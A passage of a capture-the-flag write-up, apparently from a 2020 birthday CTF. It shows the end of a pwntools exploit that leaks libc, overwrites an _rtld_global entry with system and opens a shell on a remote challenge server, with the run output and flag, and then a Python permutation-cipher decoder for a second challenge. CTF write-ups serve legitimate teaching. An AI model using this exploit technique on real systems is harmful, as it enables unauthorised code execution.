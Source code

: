 ```python
log.info('Libc base: %#016x', libc_base)

pause()

r.recvuntil('du vill skriva till: ')
r.sendline(str(rtld_global_addr + 3840))

r.recvuntil('rde: ')
r.sendline(str(libc_base + libc.symbols['system']))

r.recvuntil('r /bin/sh: ')
r.sendline(str(rtld_offset))

r.interactive()
```

TODO

```bash
$ python3 solve.py
[+] Opening connection to 83.209.18.82 on port 1337: Done
[*] '/mnt/hgfs/Dropbox/ITsec/ctf/bday2020/nnewram/libc.remote.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leak: 0x7fd08e4f4060
[*] Inside libc: 0x007fd08e042270
[*] Libc base: 0x007fd08dedb000
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ cat /home/ctf/flag.txt
BDayCTF{gr4771s_på_föd3ls3d4g3n_Z3t4_från_w4t3vr_@nnewram}
```

TODO

Flag: BDayCTF{gr4771s_på_föd3ls3d4g3n_Z3t4_från_w4t3vr_@nnewram}

## Loke's Challenge

Data: 

TODO

```:?ABCDEFGHI;J5KLMNOPQRSTUVWXYZ[\3) $!7&]1/^_`ab>+cde%fghi4jklmn-o".p29qr(,stuvw=*x0y8z{<|#6'}@```  

```python
#!/usr/bin/env python3

from permutation import Permutation

text = ":?ABCDEFGHI;J5KLMNOPQRSTUVWXYZ[\\3) $!7&]1/^_`ab>+cde%fghi4jklmn-o\".p29qr(,stuvw=*x0y8z{<|#6'}@"
print(text)
assert len(text) == len(set(text))
numbers = [ord(x)-ord(' ')+1 for x in text]
assert set(numbers) == set(range(1,94+1))

p = Permutation(*numbers)
print(''.join([chr(ord(' ')+x-1) for x in p.inverse().to_image()]))
```

